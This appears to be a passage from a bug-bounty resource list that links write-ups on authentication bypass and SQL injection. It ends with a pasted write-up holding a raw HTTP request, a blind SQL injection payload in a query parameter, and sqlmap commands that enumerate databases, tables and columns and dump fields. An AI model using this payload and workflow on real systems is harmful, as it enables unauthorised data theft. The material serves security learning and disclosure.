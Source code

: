 - [Authentication Bypass on airbnb via oauth tokens theft](https://www.arneswinnen.net/2017/06/authentication-bypass-on-airbnb-via-oauth-tokens-theft/)
- [Inspect element leads to stripe account lockout authentication Bypass](https://www.jonbottarini.com/2017/04/03/inspect-element-leads-to-stripe-account-lockout-authentication-bypass/)
- [Authentication bypass on SSO ubnt.com](https://www.arneswinnen.net/2016/11/authentication-bypass-on-sso-ubnt-com-via-subdomain-takeover-of-ping-ubnt-com/)

## SQL Injection(SQLI)

- [Tricky oracle SQLI situation](https://blog.yappare.com/2020/04/tricky-oracle-sql-injection-situation.html)
- [Exploiting “Google BigQuery” SQLI](https://hackemall.live/index.php/2020/03/31/akamai-web-application-firewall-bypass-journey-exploiting-google-bigquery-sql-injection-vulnerability/)
- [SQLI via stopping the redirection to a login page](https://medium.com/@St00rm/sql-injection-via-stopping-the-redirection-to-a-login-page-52b0792d5592)
- [Finding SQLI with white box analysis a recent bug example](https://medium.com/@frycos/finding-sql-injections-fast-with-white-box-analysis-a-recent-bug-example-ca449bce6c76)
- [Bypassing a crappy WAF to exploit a blind SQLI](https://robinverton.de/blog/2019/08/25/bug-bounty-bypassing-a-crappy-waf-to-exploit-a-blind-sql-injection/)
- [SQL Injection in private-site.com/login.php](https://www.mohamedharon.com/2019/07/sql-injection-in-private-sitecomloginphp.html)
- [Exploiting tricky blind SQLI](https://www.noob.ninja/2019/07/exploiting-tricky-blind-sql-injection.html)
- [SQLI in forget password fucntion](https://medium.com/@kgaber99/sql-injection-in-forget-password-function-3c945512e3cb)
- [SQLI Bug Bounty](https://medium.com/@ariffadhlullah2310/sql-injection-bug-bounty-110e92e71ec3)

  The scope is : *.xxxx.com
  I found the vulnerability is on api.xxx.com
  This is the raw that i got on burp
 
  GET /api/trend/get?locale=en_GB&device=desktop&uiv=4 HTTP/1.1
  Host: api.xxxx.com
  Content-Type: application/x-www-form-urlencoded
  Origin: https://www.xxx.com
  Connection: close
  blablabla
 
  This is my payload : locale=en_GB’) AND 1234=(SELECT (CASE WHEN (1234=1234) THEN 1234 ELSE (SELECT 4376 UNION SELECT 4107) END)) — BWMI&device=desktop&uiv=4
  
  1. i save the raw into the notepad as .txt format
  2. i run my sqlmap from my terminal (because i used mac. i use this only sqlmap -r /xxx/xxx/xxx/files.txt — dbs
  3. i got something cool stuff there i got the database
  4. and i try to get more than the dbs. i try to check the table first using this sqlmap -r /xxx/xxx/xxx/files.txt -D xxx — table
  5. i found a lot of table there but there is something interesting for me. Then i try to get the columns
  6. sqlmap -r /xxx/xxx/xxx/files.txt -D xxx -T xxx — columns
  7. i got the columns. very interesting then i try to got the field of DB
  8. TADAAAA i GOT what i want .
  